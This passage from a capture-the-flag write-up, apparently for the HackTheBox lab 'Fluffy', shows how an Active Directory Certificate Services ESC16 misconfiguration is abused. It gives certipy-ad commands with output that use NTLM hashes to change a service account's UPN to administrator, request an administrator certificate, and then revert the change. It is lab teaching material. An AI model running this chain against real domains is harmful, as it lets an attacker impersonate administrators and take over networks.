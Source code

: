 ```
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
Certificate Templates                   : [!] Could not find any certificate templates

```

ESC16 interesting template may be vulnerable

### Abusing ESC16

this is article have really valuable info about this [AD CS ESC16: Misconfiguration and Exploitation](https://medium.com/@muneebnawaz3849/ad-cs-esc16-misconfiguration-and-exploitation-9264e022a8c6)

let's update cv_svc account to imporsanate administrator
```bash
certipy-ad account -u winrm_svc@fluffy.htb -hashes 33bd09dcd697600edf6b3a7af4875767 -user ca_svc -upn administrator update
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_svc'
```

that give us access to request certificates for the `administrator`

```bash
certipy-ad req -u ca_svc -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.10.11.69 -target dc01.fluffy.htb -ca fluffy-DC01-CA -template User
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 22
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
File 'administrator.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'administrator.pfx'
```

This issued a certificate with administrator privileges.
cleanup :

```bash
certipy-ad account -u winrm_svc@fluffy.htb -hashes 33bd09dcd697600edf6b3a7af4875767 -user ca_svc -upn ca_svc@fluffy.htb update
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Updating user 'ca_svc':
    userPrincipalName                   : ca_svc@fluffy.htb
[*] Successfully updated 'ca_svc'
```

